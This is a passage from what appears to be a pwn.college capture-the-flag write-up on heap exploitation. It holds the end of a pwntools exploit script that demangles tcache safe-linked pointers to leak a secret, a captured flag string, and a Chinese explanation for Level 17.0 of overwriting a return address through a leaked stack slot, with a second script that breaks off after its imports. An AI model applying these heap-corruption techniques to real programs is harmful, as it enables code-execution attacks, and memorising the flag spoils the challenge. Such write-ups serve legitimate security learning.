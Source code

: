 ```python
    # which is the secret value, to fill the fd
    free(0)
    puts(0)

    target.recvuntil(b"Data: ")
    secret_mangled = int.from_bytes(target.recv(8), "little")
    secret_demangled = demangle(pos, secret_mangled)
    target.success(f"secret_demangled: {hex(secret_demangled)}")

    secret = demangle(secret, secret_demangled, 0)
    target.success(f"secret: {hex(secret)}")

    send_flag(flat(secret, 0).decode())
    quit()

    target.interactive()


if __name__ == "__main__":
    main()
```

## Flag

:sopiler[`pwn.college{ktet0NEaj6TQuRma_FkmhYKm5rq.dlDO0MDL5cTNxgzW}`]

# Level 17.0

## Information

- Category: Pwn

## Description

> Revisit a prior challenge, now with TCACHE safe-linking.

## Write-up

泄漏了代码段地址和栈地址，但是不能直接分配到返回地址，如果分配到 RBP 也不行，执行 `malloc_usable_size(ptr[n0xF_3])` 的时候会把 canary 当作 size，然后 SIGSEGV，继续往前分配的话，就不得不泄漏 canary 了，但因为输入函数是 `scanf`，所以泄漏 canary 好像也成为了不可能。

不过我们不难发现，它泄漏的这个栈地址就是 `ptr[16]` 的地址，那就很好办了，直接在里面写返回地址的栈地址，然后使用 scanf 对保持返回地址的那项进行写入。

## Exploit

```python
#!/usr/bin/env python3

from pwn import (
    args,
    context,
    flat,
    process,
    raw_input,
    remote,
)


FILE = "/challenge/babyheap_level17.0"
HOST, PORT = "localhost", 1337

```